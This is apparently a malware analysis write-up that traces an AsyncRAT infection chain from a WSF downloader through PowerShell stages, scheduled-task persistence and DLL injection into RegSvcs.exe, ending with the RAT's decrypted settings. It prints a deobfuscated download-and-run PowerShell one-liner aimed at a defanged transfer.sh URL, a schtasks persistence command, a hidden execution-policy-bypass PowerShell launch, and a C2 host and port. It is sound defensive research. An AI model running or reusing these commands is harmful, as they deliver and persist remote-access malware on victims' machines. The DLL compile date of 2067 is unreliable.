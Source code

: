 ```yaml
---
description: AsyncRAT Infection Chain Analysis
---
```


# AsyncRAT

## Summary

This sample utilizes AsyncRAT to remotely monitor and control the infected host through an encrypted tunnel. AsyncRAT is an open source Remote Access Tool maintained by [NYAN-x-CAT](https://github.com/NYAN-x-CAT). Features include Keylogger, screen viewer and recorder, SFTP upload and download and password recovery.

The infection chain utilized by this sample starts with a WSF file hosted on a malicious URL.

* Once the WSF file is executed it will then connect to another URL to download a malicious PowerShell script.
* This PowerShell script is used by the sample to contact another URL and download a second PowerShell script.
* The second PowerShell script creates a staging directory, a scheduled task, and drops four files into the created directory. The four files created by this sample were coinmarketcap.ps1, imcq.ps1, 1.bat, and coinmarketcap.vbs.
* When the scheduled task is triggered it will run coinmarketcap.vbs.
* coinmarketcap.vbs will run 1.bat
* 1.bat will then run imcq.ps1 which will inject a DLL embedded within itself into Regsvcs.exe and contact the attackers C2.

<figure><img src=".gitbook/assets/AsyncRat Infection Chain.jpeg" alt=""><figcaption><p>Infection chain utilized by this sample</p></figcaption></figure>

***

## Technical Analysis

### Downloader - any.txt

This file is used by the first stage to pull another PowerShell script from a malicious URL and continue the infection chain. The sample uses a find and replace and alternating capital letters in order to confuse someone who may be reading the file.

This stage of the sample can be deobfuscated to:

{% code overflow="wrap" %}
```
Set mw_wscript.shell= CreateObject("wscript.shell") mw_wscript.shell.Run(powershell.exe -wind hidden -exec bypass -noni iex(new-object net.webclient.downloadstring hxxps://transfer[.]sh/CdqqbMkRr9/Ic295.jpg , CONSOLE_HIDE, CMD_WAIT Set ali = Nothing
```
{% endcode %}

When this is ran it will download the next stage from _hxxps://transfer\[.]sh/CdqqbMkRr9/Ic295.jpg_ and run it with it with PowerShell.

***

### Builder - Ic295.jpg

The purpose of this stage is to setup a staging area for the sample and to establish persistence on the victim's machine. When this stage is executed it will drop four files in the staging area and start running the first files of this stage. The first file that is executed in this stage is coinmarketcap.ps1. This file is responsible for creating the scheduled task on the host to setup persistence on the machine, if for some reason the final payload is terminated this scheduled task will re-run the installation process.&#x20;

The scheduled task is ran with the command line:

{% code overflow="wrap" %}
```
'schtasks.exe' '/create' '/sc' 'minute' '/mo' 1 '/tn' ''coinmarketcap '/tr' (('C:\Users\Public\coinmarketcap\coinmarketcap.vbs'))
```
{% endcode %}

Once the scheduled task is executed it will then run coinmarketcap.vbs, this stage's responsibility is to run the dropped batch file 1.bat with wscript.

<figure><img src=".gitbook/assets/Coinmarketcap.vbs.jpeg" alt=""><figcaption><p>contents of coinmarketcap.vbs</p></figcaption></figure>

After the batch file is started it will run the final stage of this stage of this stage.

{% code overflow="wrap" %}
```
CMD /C powershell.exe -NOP -WIND HIDDEN -eXEC BYPASS -NONI "C:\Users\Public\coinmarketcap\imcq.ps1"
```
{% endcode %}

This last PowerShell script is used to build and inject a DLL into the target process RegSvcs.exe.

***

### Injector - NewPE2.dll

```
MD5:	5616daa897af18e81dee80e75eef90cd
SHA256: 3a9096d615a3cd3163b814cc2803d68a627c681d19d3a896313c925b8a11bf4c
Original Name: NewPE2.dll
file-type: dynamic-link-library
Compile Date: 28 FEB 2067 11:16:29
Entropy: 5.789
signature: Microsoft Visual C# / Basic .NET
file-size: 21504 (bytes)
```

#### _Public Class Execute()_

This class takes the arguments path and payload. These arguments are used by the sample to inject the final payload into a target process. In this sample, it is used to inject the final payload into RegSvcs.exe

Sample uses complex math to determine what case to switch to, this behavior is indicative of the malware author employing ConfuserEx to obfuscate the DLL.

<figure><img src=".gitbook/assets/SwitchCaseDLL.JPG" alt=""><figcaption><p>Example of switch case obfuscation used</p></figcaption></figure>

#### _Public Class Str()_

This class uses the functions ReverseString() and BinaryToString() to resolve WinAPI call.

**Function ReverseString()**

This function is used by the sample to reverse the order of an input string.

**Function BinaryToString()**

This function searches for the character "气" and replaces it with a 1 After this replacement is completed, it then converts the string from binary to ASCII.

<figure><img src=".gitbook/assets/BinaryToStringExample.JPG" alt=""><figcaption><p>Example of string passed to BinaryToString function</p></figcaption></figure>

***

## RAT - Stub.exe

```
MD5: D7B80F2813A1E85FA33250AF05291468
SHA256: 8830775005D8B9092E216A8AF9EF23AAB6622C1890D0FD425C4D726A03CDFAB0	
Original Name: Stub.exe
File-type: executable
Compile Date: Apr 10 2023
Entropy: 3.913
Signature: Microsoft Visual C# v7.0 / Basic .NET		
File-size: 98304 (bytes)
```

### Public Class Settings()

**Function InitalizeSettings()**

This function is used buy the sample to decrypt the RAT's configuration and then saves it to a field so it can be used later in the execution.

These are the configuration settings used in this sample:

```
Ports : 7719
Hosts : nationalteams11.publicvm[.]com
Version	: "| CRACKED BY hxxps://t[.]me/xworm_v2"
Install : false
MTX : "AsyncMutex_6SI8OkPnk"
Pastebin: null
Anti : false
offlineKL: false
BDOS : false
Group : Default
Hwid  : null
```

### Public Class main()

When main is ran it starts by entering a for loop where the escape condition is determined by the settings field "delay". Inside the loop contains the command Thread.Sleep(1000). This means that this sample will sleep for a total of three seconds before any more code is executed.

<figure><img src=".gitbook/assets/ThreadSleep.JPG" alt=""><figcaption><p>Example of Thread.Sleep()</p></figcaption></figure>

After the delay loop is completed, the sample starts to make decisions based on the configuration that was decrypted earlier. It does this by opening up a try catch block and compares the settings to a Boolean, if the setting is set to true it will run the function related to that setting.

<figure><img src=".gitbook/assets/TryCatchMain.JPG" alt=""><figcaption><p>Try catch block used by main()</p></figcaption></figure>

